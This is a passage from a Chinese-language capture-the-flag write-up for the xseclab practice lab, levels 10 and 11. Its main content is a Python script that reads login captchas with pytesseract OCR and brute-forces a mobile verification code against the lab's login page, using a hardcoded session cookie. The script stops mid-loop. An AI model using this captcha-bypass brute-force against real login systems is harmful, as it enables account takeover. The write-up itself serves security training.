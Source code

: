 
{% endhighlight %}
将所有的响应结果保存下来，发现这个。

<img src="/images/writeup10_1.png" />

再登录提示的账号，只要修改脚本里面的username就可以了。

<img src="/images/writeup10_2.png" />

Get Key!

<h6>[第十一关]</h6>
<code>update 2016/3/8</code>
这里就需要利用pytesseract来对验证码进行识别，从而暴力破解。

{% highlight python %}
#coding:utf-8

import requests
import pytesseract
from PIL import Image

def xcode(code,cookie):
	fobj = open('test.png','wb')
	ucode = requests.get(code,cookies=cookie)
	for l in ucode.content:
		fobj.writelines(l)
	fobj.close()
	im = Image.open('test.png')

	text = pytesseract.image_to_string(im)
	text = text.replace(" ",'')

	if text.isdigit() and len(text)==4:
		return text
	else:
		return xcode(code,cookie)

if __name__ == '__main__':
		
	url = 'http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/login.php'
	code = 'http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/vcode.php'

	username = '13388886666'
	submit = 'submit'

	vcode = 100

	cookie = {'PHPSESSID':'4d504a3e36f8dfe900dd7920cb26e8ee'}
	while True:
		
		text = xcode(code,cookie)
		post = {"username":username,'mobi_code':vcode,'user_code':text,'Login':submit}

		res = requests.post(url,data=post,cookies=cookie)

		print res.content,'...',vcode,text